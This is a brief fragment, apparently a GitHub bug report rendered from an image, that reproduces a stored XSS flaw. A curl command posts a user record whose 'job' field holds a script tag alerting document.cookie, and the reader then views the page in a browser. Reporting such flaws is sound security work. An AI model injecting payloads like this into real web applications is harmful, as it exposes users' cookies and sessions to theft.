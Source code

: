 1. curl -X POST http://localhost:8080/users -H 'Content-Type: application/json' -d '{"name":"name", "job": "<script>alert(document.cookie);</script>"}'
2. open browser with http://localhost:8080/users?name=name (you should enable JS in your browser to see the xss)